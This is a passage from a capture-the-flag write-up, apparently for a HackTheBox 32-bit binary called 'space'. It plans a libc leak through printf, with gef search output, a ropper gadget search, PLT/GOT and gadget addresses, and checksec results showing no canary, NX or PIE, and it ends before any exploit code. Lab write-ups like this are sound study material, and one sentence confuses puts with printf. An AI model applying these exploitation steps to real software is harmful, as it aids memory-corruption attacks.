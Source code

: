 
This program unlike the previous ones uses `printf` instead of puts. This makes it different from the normal libc leaking, since puts requires a format string as one of its parameters apart from the leak that we want to make.</br>


The following links and writeups can help to do the same : 

[https://security.stackexchange.com/questions/178006/how-to-leak-libc-base-address-using-format-string-exploit](https://security.stackexchange.com/questions/178006/how-to-leak-libc-base-address-using-format-string-exploit)

[https://github.com/VulnHub/ctf-writeups/blob/master/2016/sctf/pwn2.md](https://github.com/VulnHub/ctf-writeups/blob/master/2016/sctf/pwn2.md)

[https://www.ret2rop.com/2020/04/got-address-leak-exploit-unknown-libc.html](https://www.ret2rop.com/2020/04/got-address-leak-exploit-unknown-libc.html)

In gdb gef we can use `search-pattern` command to look for the string `%s` in the binary


```
gef➤  search-pattern "%s"
[+] Searching '%s' in memory
[+] In '/usr/lib32/libc-2.31.so'(0xf7dac000-0xf7f8f000), permission=r-x
  0xf7f39be1 - 0xf7f39be7  →   "%s\n\n" 
  0xf7f39bfd - 0xf7f39c03  →   "%s\n\n" 
  0xf7f3a1a7 - 0xf7f3a1ac  →   "%s/%s" 
  0xf7f3a1aa - 0xf7f3a1ac  →   "%s" 
```

Use ropper to find the required gadgets : 

```
ropper --file space
```

The following are some of the useful addresses I found : 

```
vuln = 0x080491a4
ret = 0x0804900a
print_plt = 0x08049040
print_got = 0x804b2d4
main = 0x080491cf
```

Address of the "%s" string : 

```
0xf7ff1374
```

However, this address belongs to the libc, whos permissions we wont be getting. 


## Taking a step back

If we look at the protections of the binary : 

```
checksec space
[*] '/home/dos/HTB/sp/space'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```
